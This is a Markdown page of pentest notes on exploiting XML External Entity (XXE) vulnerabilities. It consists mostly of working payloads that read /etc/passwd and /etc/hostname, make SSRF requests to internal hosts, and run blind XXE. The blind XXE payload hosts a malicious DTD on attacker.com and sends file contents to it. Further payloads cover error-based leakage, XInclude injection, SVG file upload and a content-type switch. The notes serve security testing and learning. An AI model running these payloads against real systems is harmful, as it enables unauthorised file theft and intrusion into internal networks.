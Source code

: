 ```yaml
---
title: "XXE"
weight: 30
description: "Learn to detect and exploit XXE (XML External Entity) vulnerabilities. These pentest notes cover file retrieval, SSRF, blind XXE techniques (OAST, error-based), XInclude, and more attack vectors."
---
```


<details><summary>Introduction</summary>

**What is XML**

* Some applications use the XML format to transmit data between the browser and the server.
* Its popularity has now declined in favor of the JSON format

**XXE Impact**

* Retrieve files
* Perform SSRF attacks

</details>

---

## Retrieve files

1. Introduce (or edit) a `DOCTYPE` element defining an external entity with the file path.
2. Edit a data value in the XML returned in the app's response to use the defined external entity.

> **Note**: To systematically test for XXE, test each data node in the XML individually using your defined entity to see if it appears in the response.

***

**Original**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck> 
```

**Exploitation**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

---

## Perform SSRF attacks

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
<stockCheck><productId>1&xxe;</productId><storeId>1</storeId></stockCheck>
```

---

## Blind XXE

### Out-of-band (OAST) techniques

**Detection**

* Detecting as SSRF
  * ```xml
    <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://attacker.com/"> ]>
    ```
* Regular entities are blocked? Bypass via XML parameter entities
  * ```xml
    <!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://attacker.com"> %xxe; ]>
    ```
  * This XXE payload declares an XML parameter entity called `xxe` and then uses the entity within the DTD

**Exploitation**

1. Start a web server and host on `http://attacker.com/example.dtd` this malicious dtd.

    ```xml
    <!ENTITY % file SYSTEM "file:///etc/hostname">
    <!ENTITY % stack "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.com/?x=%file;'>">
    %stack;
    %exfil;
    ```

2. Add this external entity

    ```xml
    <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://attacker.com/example.dtd"> %xxe;]>
    ```

> **Note**:  This technique might not work with multiline files.

### Via error messages

Trigger an XML parsing error message with the file contents.

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

> **Note**: This works if you notice an error in the response when detecting with OAST (e.g., the reflected URL entered).

---

## Hidden attack surface

* **First case** - Requests that contain data in XML format
* **Second case -** Requests that do not contain any XML
  * **Detection**: Add entity reference that doesn't exist to cause an error  -> ok it's XML

### XInclude attacks

Some applications receive client-submitted data, embed it on the server-side into an XML document, and then parse the document.

`XInclude` is a part of the XML specification that allows an XML document to be built from sub-documents.

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

```http
POST /product/stock HTTP/2
Host: vulnerable.website.com
[...]

productId=<foo+xmlns%3axi%3d"http%3a//www.w3.org/2001/XInclude">
<xi%3ainclude+parse%3d"text"+href%3d"file%3a///etc/passwd"/></foo>&storeId=1
```

### Via file upload

Some common file formats use XML or contain XML subcomponents. Examples of XML-based formats are office document formats like DOCX and image formats like SVG.

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
    <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

This works if it's used image processing library & support SVG images & allow external entity.

### Via modified content type

Some web app will tolerate other content types.

**Expected request**

```http
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```

**Submit following request**

```http
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```
